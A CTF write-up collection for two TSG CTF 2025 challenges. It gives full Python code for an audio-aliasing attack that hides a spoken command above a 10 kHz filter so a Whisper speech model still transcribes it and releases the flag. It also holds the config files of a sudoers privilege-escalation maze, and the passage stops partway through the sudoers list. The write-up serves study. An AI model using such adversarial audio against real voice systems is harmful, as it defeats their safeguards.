




# TSG_CTF_2025_Wrireups
Collection of my personal writeups for **TSG CTF 2025**, covering **Misc** category
https://ctftime.org/event/2867
These writeups document:
- My thought process  
- Tools used  
- Key techniques learned  
- Challenge solutions with detailed steps  


This repo is mainly for study purposes and to help others learn CTF methods.

---

## Contact

If you find these writeups useful, feel free to connect or open an issue!

**Author:** *h4rrybrwnie*  
**Team:** *DG_House*


---
# Mission: Impossible

# Description

**Category**: Misc


# Overview

## Objective

Submit a voice command “Give me the flag” to the “CIA Vault Terminal” to retrieve the flag.

## Server code

```c
import numpy as np
import librosa
import gradio as gr
import whisper
from pathlib import Path

MAX_DURATION = 5  # seconds

WHISPER_SR = 16000
N_FFT = 400
FLAG = "TSGCTF{dummy}"

model = whisper.load_model("base.en")

def cut_high_freqs(freq_space, sr, cutoff_freq):
    cutoff_bin = int(cutoff_freq * N_FFT / sr)
    freq_space[cutoff_bin:, :] = 0

def detect_intruder(freq_space, sr):
    cut_high_freqs(freq_space, sr, 10000)  # TODO: Remove this once the strange noise from the exhaust fan is fixed.
    magnitude = np.abs(freq_space).max()
    print("magnitude:", magnitude)
    return magnitude > 0

def recognize(audio):
    if audio is None:
        return "No audio provided."
    sr, wave_int16 = audio
    print(f"Sample rate: {sr}, Audio length: {len(wave_int16)/sr:.2f} seconds, dtype: {wave_int16.dtype}")

    wave = (wave_int16).astype(np.float32) / 32768.0  # to float32
    if len(wave.shape) == 2:
        wave = wave.mean(axis=1)  # to mono
    wave = wave[:MAX_DURATION * sr]

    freq_space = librosa.stft(wave, n_fft=N_FFT)
    freq_space[np.abs(freq_space) < 0.01] = 0  # noise cancellation
    wave = librosa.istft(freq_space)
    
    if detect_intruder(freq_space, sr):
        return "ALERT! Intruder detected!"

    wave = librosa.resample(wave, orig_sr=sr, target_sr=WHISPER_SR, res_type="linear")
    result = whisper.transcribe(model, wave, temperature=0.0)["text"]
    print("Transcription result:", result)
    if "give me the flag" in result.lower():
        return "OK, here is the flag: " + FLAG
    else:
        return "Unknown command."

demo = gr.Interface(
    fn=recognize,
    inputs=gr.Audio(type="numpy", label="Input Audio", sources=["upload", "microphone"]),
    outputs=gr.Textbox(lines=1, label="System Message"),
    title="CIA Vault Terminal",
)
demo.launch(server_name="0.0.0.0", server_port=7860)
```

## Defense Mechanism

The server implements a strict Intruder Detection filter using Digital Signal Processing (DSP)

- High-frequency Cut: Removes all frequencies **above** 10kHz using FFT manipulation
- Silence check: Calculates the magnitude of the remaining low-frequency signal (< 10kHz)
- Logic: If magnitude > 0, assumes an intruder is speaking and block requests.

Processing Logic: If the audio passes the filer, the original signal is resampled to 16kHz (using librosa.resample with linear interpolation) and fed into the OpenAI Whisper model for speech-to-text transcription.

# Vulnerability Analysis

The vulnerabilities lies in the mismatch between the security filter’s domain and the speech recognizer’s resampling method, specifically regarding the Nyquist-Shannon Sampling Theorem.

- The flaw: Server uses librosa.resample(…, res_type=”linear”). Linear interpolation is computationally cheap but lack a proper anti-aliasing filter.
- Aliasing Principle: When downsampling to a new sample rate, any frequency component above the new Nyquist frequency (8kHz) will not be discarded. Instead, it folds aliases back into the lower frequency spectrum.

For a target sample rate of 16kHz, an input frequency $f_{in}$ will appear as $f_{out}$

                    f_{out} = |f_{in} - SR_{new}|

If inject a signal at 14kHz:

                    f_{out} = |14000 - 16000| = 2000

→ The 14kHz signal (invisible to the < 10kHz filter) becomes a clear 2kHz tone (audible speech) after resampling.

# Exploitation

To bypass the system, we need to construct a payload that satisfies two contradictory conditions:

1. Invisible to the filter → must be absolutely silent below 10kHz
2. Audible to Whisper → must reconstruct the phrase “Give me the flag” after aliasing

To address theses, I employ Amplitude Modulation (AM) to shift the speech spectrum up to 13kHz-16kHz range, combined with Spectral Cleaning to prevent energy leakage into the forbidden low-frequency zone.

Below is the code using to create phantom_signal.wav (I am used Kaggle to run this code).

```c
import numpy as np
from scipy.io import wavfile
from gtts import gTTS
from pydub import AudioSegment
import io
import scipy.signal

COMMAND = "Give me the flag"
OUTPUT_FILE = "phantom_signal.wav"
TARGET_SR = 32000
CARRIER_FREQ = 16000
GAIN = 0.1      

def create_phantom_exploit():    
    tts = gTTS(COMMAND, lang='en')
    mp3_fp = io.BytesIO()
    tts.write_to_fp(mp3_fp)
    mp3_fp.seek(0)
    
    sound = AudioSegment.from_file(mp3_fp, format="mp3")
    sound = sound.set_frame_rate(TARGET_SR).set_channels(1) 
    samples = np.array(sound.get_array_of_samples())
    
    audio_float = samples.astype(np.float32) / 32768.0

    sos = scipy.signal.butter(10, [500, 3000], 'bandpass', fs=TARGET_SR, output='sos')
    audio_float = scipy.signal.sosfilt(sos, audio_float)

    t = np.arange(len(audio_float)) / TARGET_SR
    carrier = np.cos(2 * np.pi * CARRIER_FREQ * t)
    modulated = audio_float * carrier

    modulated = modulated * GAIN

    fade_len = 2000
    if len(modulated) > 2 * fade_len:
        modulated[:fade_len] *= np.linspace(0, 1, fade_len)
        modulated[-fade_len:] *= np.linspace(1, 0, fade_len)

    silence_samples = int(0.5 * TARGET_SR)
    silence = np.zeros(silence_samples, dtype=np.float32)
    
    final_signal = np.concatenate([silence, modulated, silence])

    final_int16 = (final_signal * 32767).astype(np.int16)
    wavfile.write(OUTPUT_FILE, TARGET_SR, final_int16)
    
if __name__ == "__main__":
    create_phantom_exploit()
```

# Implementation Details

This section is the breakdown of the final exploit script.

## Step 1: Source Generation & Bandpass Filtering

We generate a clean TTS audio and apply a strict bandpass filter (500Hz - 3000Hz)

Human speech contains bass frequencies. If we shift speech, the tail of the bass might leak into the < 10kHz detectable range. We strip the audio to its bare essential frequencies.

```c
# Bandpass filter: Keep only 500Hz - 3000Hz
sos = scipy.signal.butter(10, [500, 3000], 'bandpass', fs=TARGET_SR, output='sos')
audio_float = scipy.signal.sosfilt(sos, audio_float)
```

## Step 2: Frequency Shifting (Modulation)

We multiply the signal by a carrier wave at 16kHz. This shifts our 2kHz speech up to 16 - 2 = 14kHz

```c
CARRIER_FREQ = 16000 
carrier = np.cos(2 * np.pi * CARRIER_FREQ * t)
modulated = audio_float * carrier
```

## Step 3: Stealth

Initial attempts failed due to **Spectral Leakage** and **Transient Response** (clicking sounds at the start/end causing full-spectrum noise).

1. **Low Gain (0.1):** Keeps the noise floor below the server's `0.01` noise gate.
2. **Windowing (Soft Fade):** Smoothly fades the audio in and out to prevent transient clicks.
3. **Padding:** Adds 0.5s of absolute silence at the beginning and end. This ensures the FFT windows at the edges see only zeros.

```c
# Apply Gain
modulated = modulated * 0.1 

# Soft Fade In/Out
modulated[:fade_len] *= np.linspace(0, 1, fade_len)
modulated[-fade_len:] *= np.linspace(1, 0, fade_len)

# Padding with Silence
final_signal = np.concatenate([silence, modulated, silence])
```

# Flag



# Sudoers Maze

# Description

**Category**: Misc



# Overview

We need to escalate privileges from user u0 to u1000 to read the flag.

## Analysis

We were provided with the Docker deployment files (Dockerfile, docker-compose.yml) and configuration file (sudoers, start.sh)

Dockerfile:

```c
FROM ubuntu:24.04@sha256:c35e29c9450151419d9448b0fd75374fec4fff364a27f176fb458d472dfc9e54

ENV DEBIAN_FRONTEND noninteractive

RUN apt-get update && \
  apt-get -y upgrade && \
  apt-get install -y \
  xinetd \
  iproute2 \
  sudo

RUN groupadd -r user && useradd -r -g user user
RUN seq 0 1000 | xargs -I{} useradd -M --no-log-init -s /sbin/nologin u{}

COPY --chown=root:user ./build/start.sh /home/user/start.sh
COPY --chown=u1000:u1000 ./build/flag.txt /home/user/flag.txt
COPY --chown=root:root ./build/ctf.conf /etc/xinetd.d/ctf
COPY --chown=root:root ./build/sudoers /etc/sudoers

WORKDIR /home/user/

RUN chmod 400 ./flag.txt && \
  chmod 555 ./start.sh && \
  chmod 444 /etc/xinetd.d/ctf && \
  chmod 400 /etc/sudoers

USER user
EXPOSE 55655

CMD ["xinetd", "-dontfork", "-f","/etc/xinetd.d/ctf"]
```

docker-compose.yml:

```c
services:
        ctf:
                restart: always
                build: ./
                read_only: true
                networks:
                        - internal
        proxy:
                restart: always
                image: nginx
                ports:
                        - '55655:55655'
                volumes:
                        - ./build/nginx.conf:/etc/nginx/nginx.conf:ro
                networks:
                        - default
                        - internal
                depends_on:
                        - ctf

networks:
        default:
        internal:
                internal: true
```

start.sh:

```c
#!/bin/sh

cd /home/user
timeout --foreground -s 9 60s stdbuf -i0 -o0 -e0 sudo -u u0 /bin/bash -i
```

sudoers:

```c
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults	env_reset
Defaults	mail_badpass
Defaults	secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# This fixes CVE-2005-4890 and possibly breaks some versions of kdesu
# (#1011624, https://bugs.kde.org/show_bug.cgi?id=452532)
Defaults	use_pty

# This preserves proxy settings from user environments of root
# equivalent users (group sudo)
#Defaults:%sudo env_keep += "http_proxy https_proxy ftp_proxy all_proxy no_proxy"

# This allows running arbitrary commands, but so does ALL, and it means
# different sudoers have their choice of editor respected.
#Defaults:%sudo env_keep += "EDITOR"

# Completely harmless preservation of a user preference.
#Defaults:%sudo env_keep += "GREP_COLOR"

# While you shouldn't normally run git as root, you need to with etckeeper
#Defaults:%sudo env_keep += "GIT_AUTHOR_* GIT_COMMITTER_*"

# Per-user preferences; root won't have sensible values for them.
#Defaults:%sudo env_keep += "EMAIL DEBEMAIL DEBFULLNAME"

# "sudo scp" or "sudo rsync" should be able to use your SSH agent.
#Defaults:%sudo env_keep += "SSH_AGENT_PID SSH_AUTH_SOCK"

# Ditto for GPG agent
#Defaults:%sudo env_keep += "GPG_AGENT_INFO"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root	ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "@include" directives:

# @includedir /etc/sudoers.d

# entrance to the maze
user ALL=(u0) NOPASSWD: ALL
u0 ALL=(u499) NOPASSWD: ALL
u1 ALL=(u377, u751) NOPASSWD: ALL
u2 ALL=(u171) NOPASSWD: ALL
u3 ALL=(u504, u878) NOPASSWD: ALL
u4 ALL=(u298, u461, u835) NOPASSWD: ALL
u5 ALL=(u713) NOPASSWD: ALL
u6 ALL=(u371, u908) NOPASSWD: ALL
u7 ALL=(u165, u328) NOPASSWD: ALL
u8 ALL=(u661) NOPASSWD: ALL
u9 ALL=(u455, u829) NOPASSWD: ALL
u10 ALL=(u707, u870) NOPASSWD: ALL
u11 ALL=(u664) NOPASSWD: ALL
u12 ALL=(u322) NOPASSWD: ALL
u13 ALL=(u143, u818) NOPASSWD: ALL
u14 ALL=(u157, u531) NOPASSWD: ALL
u15 ALL=(u864) NOPASSWD: ALL
u16 ALL=(u284, u658, u821) NOPASSWD: ALL
u17 ALL=(u479, u853) NOPASSWD: ALL
u18 ALL=(u493, u867) NOPASSWD: ALL
u19 ALL=(u151, u525, u688) NOPASSWD: ALL
u20 ALL=(u346) NOPASSWD: ALL
u21 ALL=(u815) NOPASSWD: ALL
u22 ALL=(u693) NOPASSWD: ALL
u23 ALL=(u487, u650) NOPASSWD: ALL
u24 ALL=(u308, u682) NOPASSWD: ALL
u25 ALL=(u102) NOPASSWD: ALL
u26 ALL=(u354, u517, u891) NOPASSWD: ALL
u27 ALL=(u175) NOPASSWD: ALL
u28 ALL=(u644) NOPASSWD: ALL
u29 ALL=(u465, u839) NOPASSWD: ALL
u30 ALL=(u853) NOPASSWD: ALL
u31 ALL=(u137, u511, u885) NOPASSWD: ALL
u32 ALL=(u332, u706) NOPASSWD: ALL
u33 ALL=(u126) NOPASSWD: ALL
u34 ALL=(u833, u996) NOPASSWD: ALL
u35 ALL=(u335, u847) NOPASSWD: ALL
u36 ALL=(u668) NOPASSWD: ALL
u37 ALL=(u88, u462) NOPASSWD: ALL
u38 ALL=(u120, u283) NOPASSWD: ALL
u39 ALL=(u161, u535) NOPASSWD: ALL
u40 ALL=(u630) NOPASSWD: ALL
u41 ALL=(u662) NOPASSWD: ALL
u42 ALL=(u245, u619, u993) NOPASSWD: ALL
u43 ALL=(u497, u871) NOPASSWD: ALL
u44 ALL=(u291, u665) NOPASSWD: ALL
u45 ALL=(u112, u486) NOPASSWD: ALL
u46 ALL=(u819) NOPASSWD: ALL
u47 ALL=(u158) NOPASSWD: ALL
u48 ALL=(u654) NOPASSWD: ALL
u49 ALL=(u448, u822) NOPASSWD: ALL
u50 ALL=(u106, u480, u643) NOPASSWD: ALL
u51 ALL=(u521, u895) NOPASSWD: ALL
u52 ALL=(u315, u689) NOPASSWD: ALL
u53 ALL=(u510) NOPASSWD: ALL
u54 ALL=(u442, u605, u979) NOPASSWD: ALL
u55 ALL=(u182, u857) NOPASSWD: ALL
u56 ALL=(u651) NOPASSWD: ALL
u57 ALL=(u309, u472, u846) NOPASSWD: ALL
u58 ALL=(u130, u504) NOPASSWD: ALL
u59 ALL=(u973) NOPASSWD: ALL
u60 ALL=(u176, u339, u851) NOPASSWD: ALL
u61 ALL=(u808) NOPASSWD: ALL
u62 ALL=(u466, u840) NOPASSWD: ALL
u63 ALL=(u260, u423, u797, u862) NOPASSWD: ALL
u64 ALL=(u301, u675) NOPASSWD: ALL
u65 ALL=(u333) NOPASSWD: ALL
u66 ALL=(u290, u802, u965) NOPASSWD: ALL
u67 ALL=(u997) NOPASSWD: ALL
u68 ALL=(u637) NOPASSWD: ALL
u69 ALL=(u295, u669, u832) NOPASSWD: ALL
u70 ALL=(u89, u252, u626) NOPASSWD: ALL
u71 ALL=(u284) NOPASSWD: ALL
u72 ALL=(u162, u536, u699) NOPASSWD: ALL
u73 ALL=(u119, u794) NOPASSWD: ALL
u74 ALL=(u826) NOPASSWD: ALL
u75 ALL=(u246, u620) NOPASSWD: ALL
u76 ALL=(u498) NOPASSWD: ALL
u77 ALL=(u319, u693) NOPASSWD: ALL
u78 ALL=(u113) NOPASSWD: ALL
u79 ALL=(u983) NOPASSWD: ALL
u80 ALL=(u322) NOPASSWD: ALL
u81 ALL=(u655) NOPASSWD: ALL
u82 ALL=(u449, u612, u823, u986) NOPASSWD: ALL
u83 ALL=(u644) NOPASSWD: ALL
u84 ALL=(u977) NOPASSWD: ALL
u85 ALL=(u316, u479) NOPASSWD: ALL
u86 ALL=(u137) NOPASSWD: ALL
u87 ALL=(u606, u980) NOPASSWD: ALL
u88 ALL=(u37, u264, u427, u801) NOPASSWD: ALL
u89 ALL=(u70, u278, u815) NOPASSWD: ALL
u90 ALL=(u99, u473) NOPASSWD: ALL
u91 ALL=(u131, u294, u806) NOPASSWD: ALL
u92 ALL=(u763) NOPASSWD: ALL
u93 ALL=(u641) NOPASSWD: ALL
u94 ALL=(u809) NOPASSWD: ALL
u95 ALL=(u256, u630) NOPASSWD: ALL
u96 ALL=(u288) NOPASSWD: ALL
u97 ALL=(u302, u676) NOPASSWD: ALL
u98 ALL=(u123, u497) NOPASSWD: ALL
u99 ALL=(u90, u966) NOPASSWD: ALL
u100 ALL=(u787, u998) NOPASSWD: ALL
u101 ALL=(u126, u638) NOPASSWD: ALL
u102 ALL=(u25, u833) NOPASSWD: ALL
u103 ALL=(u117, u491, u654) NOPASSWD: ALL
u104 ALL=(u448, u749) NOPASSWD: ALL
u105 ALL=(u781) NOPASSWD: ALL
u106 ALL=(u50, u120) NOPASSWD: ALL
u107 ALL=(u453, u616, u990) NOPASSWD: ALL
u108 ALL=(u410, u784) NOPASSWD: ALL
u109 ALL=(u442) NOPASSWD: ALL
u110 ALL=(u320, u483, u857) NOPASSWD: ALL
u111 ALL=(u277) NOPASSWD: ALL
u112 ALL=(u45, u984) NOPASSWD: ALL
u113 ALL=(u78, u404, u778, u941) NOPASSWD: ALL
u114 ALL=(u819) NOPASSWD: ALL
u115 ALL=(u239, u613, u987) NOPASSWD: ALL
u116 ALL=(u271, u434, u808) NOPASSWD: ALL
u117 ALL=(u103) NOPASSWD: ALL
u118 ALL=(u480) NOPASSWD: ALL
u119 ALL=(u73, u301, u813, u976) NOPASSWD: ALL
u120 ALL=(u38, u106, u396, u770) NOPASSWD: ALL
u121 ALL=(u428, u802) NOPASSWD: ALL
u122 ALL=(u680, u843) NOPASSWD: ALL
u123 ALL=(u98, u263, u564, u637, u938) NOPASSWD: ALL
u124 ALL=(u295) NOPASSWD: ALL
u125 ALL=(u764) NOPASSWD: ALL
u126 ALL=(u33, u101, u130) NOPASSWD: ALL
u127 ALL=(u599, u973) NOPASSWD: ALL
u128 ALL=(u257, u631) NOPASSWD: ALL
u129 ALL=(u452) NOPASSWD: ALL
u130 ALL=(u58, u126) NOPASSWD: ALL
u131 ALL=(u91) NOPASSWD: ALL
u132 ALL=(u756, u967) NOPASSWD: ALL
u133 ALL=(u414, u788) NOPASSWD: ALL
u134 ALL=(u208, u582) NOPASSWD: ALL
u135 ALL=(u460, u623, u834, u997) NOPASSWD: ALL
u136 ALL=(u281, u655) NOPASSWD: ALL
u137 ALL=(u31, u86) NOPASSWD: ALL
u138 ALL=(u408, u945) NOPASSWD: ALL
u139 ALL=(u284, u959) NOPASSWD: ALL
u140 ALL=(u617, u991) NOPASSWD: ALL
u141 ALL=(u275, u438, u812) NOPASSWD: ALL
u142 ALL=(u232, u907) NOPASSWD: ALL
u143 ALL=(u13, u484) NOPASSWD: ALL
u144 ALL=(u278) NOPASSWD: ALL
u145 ALL=(u774) NOPASSWD: ALL
u146 ALL=(u568, u942) NOPASSWD: ALL
u147 ALL=(u446, u820) NOPASSWD: ALL
u148 ALL=(u267, u641) NOPASSWD: ALL
u149 ALL=(u435) NOPASSWD: ALL
u150 ALL=(u768, u931) NOPASSWD: ALL
u151 ALL=(u19, u270, u644) NOPASSWD: ALL
u152 ALL=(u977) NOPASSWD: ALL
u153 ALL=(u771) NOPASSWD: ALL
u154 ALL=(u218, u429, u592, u893, u966) NOPASSWD: ALL
u155 ALL=(u250) NOPASSWD: ALL
u156 ALL=(u264, u638) NOPASSWD: ALL
u157 ALL=(u14, u459) NOPASSWD: ALL
u158 ALL=(u47, u928) NOPASSWD: ALL
u159 ALL=(u212, u586) NOPASSWD: ALL
u160 ALL=(u600, u974) NOPASSWD: ALL
u161 ALL=(u39, u421, u795) NOPASSWD: ALL
u162 ALL=(u72, u453) NOPASSWD: ALL
u163 ALL=(u548, u922) NOPASSWD: ALL
u164 ALL=(u288) NOPASSWD: ALL
u165 ALL=(u7, u757) NOPASSWD: ALL
u166 ALL=(u415, u578, u789, u952) NOPASSWD: ALL
u167 ALL=(u610) NOPASSWD: ALL
u168 ALL=(u250, u624, u998) NOPASSWD: ALL
u169 ALL=(u282, u445, u819) NOPASSWD: ALL
u170 ALL=(u239, u914) NOPASSWD: ALL
u171 ALL=(u2, u946) NOPASSWD: ALL
u172 ALL=(u960) NOPASSWD: ALL
u173 ALL=(u244, u781) NOPASSWD: ALL
u174 ALL=(u439, u813) NOPASSWD: ALL
u175 ALL=(u27, u233) NOPASSWD: ALL
u176 ALL=(u60, u729) NOPASSWD: ALL
u177 ALL=(u743) NOPASSWD: ALL
u178 ALL=(u775) NOPASSWD: ALL
u179 ALL=(u195, u569, u732) NOPASSWD: ALL
u180 ALL=(u390) NOPASSWD: ALL
u181 ALL=(u268, u642) NOPASSWD: ALL
u182 ALL=(u55, u599) NOPASSWD: ALL
u183 ALL=(u932) NOPASSWD: ALL
u184 ALL=(u352, u726) NOPASSWD: ALL
u185 ALL=(u978) NOPASSWD: ALL
u186 ALL=(u425, u799) NOPASSWD: ALL
u187 ALL=(u219, u593) NOPASSWD: ALL
u188 ALL=(u414) NOPASSWD: ALL
u189 ALL=(u428) NOPASSWD: ALL
u190 ALL=(u761) NOPASSWD: ALL
u191 ALL=(u929) NOPASSWD: ALL
u192 ALL=(u376, u750) NOPASSWD: ALL
u193 ALL=(u628) NOPASSWD: ALL
u194 ALL=(u422, u959) NOPASSWD: ALL
u195 ALL=(u179, u243) NOPASSWD: ALL
u196 ALL=(u712) NOPASSWD: ALL
u197 ALL=(u289, u964) NOPASSWD: ALL
u198 ALL=(u384, u758, u921) NOPASSWD: ALL
u199 ALL=(u579, u807, u953) NOPASSWD: ALL
u200 ALL=(u237, u774) NOPASSWD: ALL
u201 ALL=(u706, u869) NOPASSWD: ALL
u202 ALL=(u446) NOPASSWD: ALL
u203 ALL=(u915) NOPASSWD: ALL
u204 ALL=(u573, u736) NOPASSWD: ALL
u205 ALL=(u530, u904) NOPASSWD: ALL
u206 ALL=(u408, u782) NOPASSWD: ALL
u207 ALL=(u603, u977) NOPASSWD: ALL
u208 ALL=(u134, u397) NOPASSWD: ALL
u209 ALL=(u730) NOPASSWD: ALL
u210 ALL=(u744) NOPASSWD: ALL
u211 ALL=(u939) NOPASSWD: ALL
u212 ALL=(u159, u597, u971) NOPASSWD: ALL
u213 ALL=(u391, u554) NOPASSWD: ALL
u214 ALL=(u432, u806) NOPASSWD: ALL
u215 ALL=(u226) NOPASSWD: ALL
u216 ALL=(u933) NOPASSWD: ALL
u217 ALL=(u353, u516, u890) NOPASSWD: ALL
u218 ALL=(u154) NOPASSWD: ALL
u219 ALL=(u187, u426, u589, u800, u963) NOPASSWD: ALL
u220 ALL=(u383, u684, u757) NOPASSWD: ALL
u221 ALL=(u716) NOPASSWD: ALL
u222 ALL=(u429) NOPASSWD: ALL
u223 ALL=(u250) NOPASSWD: ALL
u224 ALL=(u719) NOPASSWD: ALL
u225 ALL=(u751) NOPASSWD: ALL
u226 ALL=(u215, u572) NOPASSWD: ALL
u227 ALL=(u586) NOPASSWD: ALL
u228 ALL=(u244) NOPASSWD: ALL
u229 ALL=(u713, u876) NOPASSWD: ALL
u230 ALL=(u908) NOPASSWD: ALL
u231 ALL=(u786) NOPASSWD: ALL
u232 ALL=(u142, u580, u743) NOPASSWD: ALL
u233 ALL=(u175, u401) NOPASSWD: ALL
u234 ALL=(u870) NOPASSWD: ALL
u235 ALL=(u236, u610) NOPASSWD: ALL
u236 ALL=(u235) NOPASSWD: ALL
u237 ALL=(u200, u363, u737) NOPASSWD: ALL
u238 ALL=(u395, u558, u932) NOPASSWD: ALL
u239 ALL=(u115, u170, u572, u946) NOPASSWD: ALL
u240 ALL=(u604) NOPASSWD: ALL
u241 ALL=(u699) NOPASSWD: ALL
u242 ALL=(u894) NOPASSWD: ALL
u243 ALL=(u195, u908) NOPASSWD: ALL
u244 ALL=(u173, u228, u566, u940) NOPASSWD: ALL
u245 ALL=(u42, u387, u761) NOPASSWD: ALL
u246 ALL=(u75, u555) NOPASSWD: ALL
u247 ALL=(u376, u888) NOPASSWD: ALL
u248 ALL=(u390) NOPASSWD: ALL
u249 ALL=(u723) NOPASSWD: ALL
u250 ALL=(u155, u168, u223, u891) NOPASSWD: ALL
u251 ALL=(u338, u712) NOPASSWD: ALL
u252 ALL=(u70, u590, u964) NOPASSWD: ALL
u253 ALL=(u384) NOPASSWD: ALL
u254 ALL=(u717) NOPASSWD: ALL
u255 ALL=(u674, u975) NOPASSWD: ALL
u256 ALL=(u95, u926) NOPASSWD: ALL
u257 ALL=(u128, u373, u584, u747) NOPASSWD: ALL
u258 ALL=(u541, u915) NOPASSWD: ALL
u259 ALL=(u874) NOPASSWD: ALL
u260 ALL=(u63, u587, u750) NOPASSWD: ALL
u261 ALL=(u408) NOPASSWD: ALL
u262 ALL=(u503, u877) NOPASSWD: ALL
u263 ALL=(u123, u535, u698, u909) NOPASSWD: ALL
u264 ALL=(u88, u156, u576, u950) NOPASSWD: ALL
u265 ALL=(u370, u744) NOPASSWD: ALL
u266 ALL=(u402, u565) NOPASSWD: ALL
u267 ALL=(u148) NOPASSWD: ALL
u268 ALL=(u181) NOPASSWD: ALL
u269 ALL=(u706) NOPASSWD: ALL
u270 ALL=(u151, u364, u527, u901) NOPASSWD: ALL
u271 ALL=(u116, u559) NOPASSWD: ALL
u272 ALL=(u654) NOPASSWD: ALL
u273 ALL=(u394, u768) NOPASSWD: ALL
u274 ALL=(u863) NOPASSWD: ALL
u275 ALL=(u141, u895) NOPASSWD: ALL
u276 ALL=(u342, u716) NOPASSWD: ALL
u277 ALL=(u111, u730) NOPASSWD: ALL
u278 ALL=(u89, u144, u388, u762) NOPASSWD: ALL
u279 ALL=(u345) NOPASSWD: ALL
u280 ALL=(u678) NOPASSWD: ALL
u281 ALL=(u136, u692) NOPASSWD: ALL
u282 ALL=(u169, u724, u887) NOPASSWD: ALL
u283 ALL=(u38, u545, u919) NOPASSWD: ALL
u284 ALL=(u16, u71, u139, u339) NOPASSWD: ALL
u285 ALL=(u591, u754) NOPASSWD: ALL
u286 ALL=(u548, u849) NOPASSWD: ALL
u287 ALL=(u881) NOPASSWD: ALL
u288 ALL=(u96, u164, u675) NOPASSWD: ALL
u289 ALL=(u197) NOPASSWD: ALL
u290 ALL=(u66, u748) NOPASSWD: ALL
u291 ALL=(u44, u542) NOPASSWD: ALL
u292 ALL=(u363) NOPASSWD: ALL
u293 ALL=(u751) NOPASSWD: ALL
u294 ALL=(u91) NOPASSWD: ALL
u295 ALL=(u69, u124, u878) NOPASSWD: ALL
u296 ALL=(u325, u699) NOPASSWD: ALL
u297 ALL=(u357, u520) NOPASSWD: ALL
u298 ALL=(u4, u534, u745, u908) NOPASSWD: ALL
u299 ALL=(u566) NOPASSWD: ALL
u300 ALL=(u661) NOPASSWD: ALL
u301 ALL=(u64, u119, u319, u856) NOPASSWD: ALL
u302 ALL=(u97, u734) NOPASSWD: ALL
u303 ALL=(u528, u902) NOPASSWD: ALL
